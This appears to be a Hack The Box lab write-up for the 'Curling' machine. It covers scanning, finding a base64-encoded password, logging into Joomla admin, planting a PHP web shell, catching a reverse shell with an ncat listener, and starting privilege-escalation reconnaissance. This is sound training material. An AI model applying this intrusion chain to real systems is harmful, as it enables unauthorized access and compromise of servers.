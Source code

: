 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b9ccd082-7a9c-4ca9-bada-0648f6dcf24b)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Mon Jun  5 11:14:29 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80 -Pn 10.10.10.150
Nmap scan report for 10.10.10.150
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
|_  256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  5 11:14:44 2023 -- 1 IP address (1 host up) scanned in 15.25 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1ddfff23-0af7-4425-a997-a02d52f8f688)

opening the IP on a browser, we can see that it is running a joomla cms. let's fuzz for hidden dirs.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Curling]
└─$ gobuster dir -u http://10.10.10.150/ -w /usr/share/wordlists/dirb/common.txt -k -x php,txt -b 403,404 2>/dev/null 
===============================================================
Gobuster v3.5                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.150/              
[+] Method:                  GET                                                   
[+] Threads:                 10                                                    
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt                                                                                                      
[+] Negative Status codes:   403,404                                               
[+] User Agent:              gobuster/3.5                                       
[+] Extensions:              php,txt                                                                                                                                   
[+] Timeout:                 10s                                                   
===============================================================                  
2023/06/05 11:34:54 Starting gobuster in directory enumeration mode                
===============================================================
/administrator        (Status: 301) [Size: 320] [--> http://10.10.10.150/administrator/]
/bin                  (Status: 301) [Size: 310] [--> http://10.10.10.150/bin/]     
/cache                (Status: 301) [Size: 312] [--> http://10.10.10.150/cache/]  
/components           (Status: 301) [Size: 317] [--> http://10.10.10.150/components/]
/configuration.php    (Status: 200) [Size: 0]    
/images               (Status: 301) [Size: 313] [--> http://10.10.10.150/images/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.150/includes/]
/index.php            (Status: 200) [Size: 14264]                                 
/index.php            (Status: 200) [Size: 14264]
/language             (Status: 301) [Size: 315] [--> http://10.10.10.150/language/]
/layouts              (Status: 301) [Size: 314] [--> http://10.10.10.150/layouts/]                                                                                     
/libraries            (Status: 301) [Size: 316] [--> http://10.10.10.150/libraries/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/media                (Status: 301) [Size: 312] [--> http://10.10.10.150/media/]
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.150/modules/]
/plugins              (Status: 301) [Size: 314] [--> http://10.10.10.150/plugins/]
/README.txt           (Status: 200) [Size: 4872]               
/secret.txt           (Status: 200) [Size: 17]
/templates            (Status: 301) [Size: 316] [--> http://10.10.10.150/templates/]
/tmp                  (Status: 301) [Size: 310] [--> http://10.10.10.150/tmp/]
/web.config.txt       (Status: 200) [Size: 1690]

===============================================================
2023/06/05 11:38:25 Finished
===============================================================
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7aee6e87-aece-4b9c-a075-0b8f3b8753af)

chcking out the `/secret.txt`... found an encoded text `Q3VybGluZzIwMTgh` decoded from base64 to `Curling2018!`.  looks like a potential password.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dcff2d8d-deab-4198-a90f-acb5b66ccb9a)

checking the posts, we can see a potential username `floris`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d3909f54-67e2-4b48-98b5-d187e8b2dd5d)

let's try login administrator with this creds `floris:Curling2018!`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6f6a7a2b-e29c-4404-be89-4a0962ebdcf4)

Bull's eye. we are in as admin, let's play around to get shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/59f64fd5-3708-4e09-accf-7bb3fa7fad1e)

navigate to the extension panel and create a php web shell. let's locate this shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cb19512e-2354-4ce7-99be-e60ea4b605e4)

cool let's pop a reverse shell.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Curling]
└─$ ncat -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.150.
Ncat: Connection from 10.10.10.150:48836.
bash: cannot set terminal process group (1318): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar/html$
```
boom we are in. let's escalate privs.


## Privilege Escalation

```
www-data@curling:/home/floris$ ls -al
total 44
drwxr-xr-x 6 floris floris 4096 Aug  2  2022 .
drwxr-xr-x 3 root   root   4096 Aug  2  2022 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 Aug  2  2022 .cache
drwx------ 3 floris floris 4096 Aug  2  2022 .gnupg
drwxrwxr-x 3 floris floris 4096 Aug  2  2022 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 Aug  2  2022 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 Jun  5 10:04 user.txt
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$
```
in floris home dir, saw a password_backup file. trying to read the content got to see it an hexdump of a bzip2 file. let's repair it,


